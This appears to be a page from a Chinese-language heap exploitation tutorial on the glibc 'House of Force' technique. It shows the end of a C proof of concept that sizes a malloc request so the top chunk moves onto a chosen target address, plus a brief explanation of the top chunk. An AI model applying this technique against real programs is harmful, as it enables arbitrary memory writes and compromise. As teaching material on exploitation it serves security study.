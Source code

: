 ```C

    // Might result in an integer overflow, doesn't matter
    requestSize = (size_t)victim          // The target address that malloc should return
                  - (size_t)top_chunk     // The present address of the top chunk
                  - 2 * sizeof(long long) // Size of `size` and `prev_size`
                  - sizeof(long long);    // Additional buffer

    // This also needs to be forced by the attacker
    // This will advance the top_chunk ahead by (requestSize+header+additional buffer)
    // Making it point to `victim`
    printf("%p\n", malloc(requestSize));

    // The top chunk again will service the request and return `victim`
    ptr = malloc(100);
    printf("%p\n", ptr);

    return 0;
}
```

* 原理分析

top chunk

是一个 arena 的最上边界, malloc() 时 top chunk 最后考虑,如果需要更多空间则会调用 sbrk() 系统调用进行增长,其 PREV_INUSE 标志位总是被设置,与其它 chunk 拥有相同的结构

![arena](../pictures/heap/house_of_force/arena.jpg)

